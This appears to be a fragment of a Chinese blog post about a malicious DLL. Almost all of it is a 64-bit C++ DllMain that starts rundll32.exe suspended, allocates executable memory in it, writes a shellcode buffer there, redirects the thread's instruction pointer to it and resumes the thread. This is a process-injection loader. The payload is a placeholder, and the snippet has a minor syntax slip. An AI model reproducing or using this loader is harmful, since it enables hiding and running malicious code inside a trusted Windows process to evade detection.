 64位的：

{% highlight c++ %}
    #include <windows.h>

    BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
     unsigned char shellcode_calc[] = "shecode_32"
     TCHAR CommandLine[] = TEXT("rundll32.exe");
     CONTEXT Context; 
     struct _STARTUPINFOA StartupInfo; 
     struct _PROCESS_INFORMATION ProcessInformation; 
     LPVOID lpBaseAddress; 
     ZeroMemory(&StartupInfo, sizeof(StartupInfo));
     StartupInfo.cb = 104;
     if (CreateProcess(0, CommandLine, 0, 0, 0, 0x44, 0, 0, (LPSTARTUPINFOW)&StartupInfo, &ProcessInformation)) {
    	  Context.ContextFlags = 1048579;
    	  GetThreadContext(ProcessInformation.hThread, &Context);
    	  lpBaseAddress = VirtualAllocEx(ProcessInformation.hProcess, 0, 0x800u, 0x1000u, 0x40u);
    	  WriteProcessMemory(ProcessInformation.hProcess, lpBaseAddress, &shellcode_calc, 0x800u, 0);
    	  Context.Rip = (DWORD64)lpBaseAddress;
    	  SetThreadContext(ProcessInformation.hThread, &Context);
    	  ResumeThread(ProcessInformation.hThread);
    	  CloseHandle(ProcessInformation.hThread);
    	  CloseHandle(ProcessInformation.hProcess);
     }
    }
{% endhighlight %}

注：文中若有错误，欢迎指正。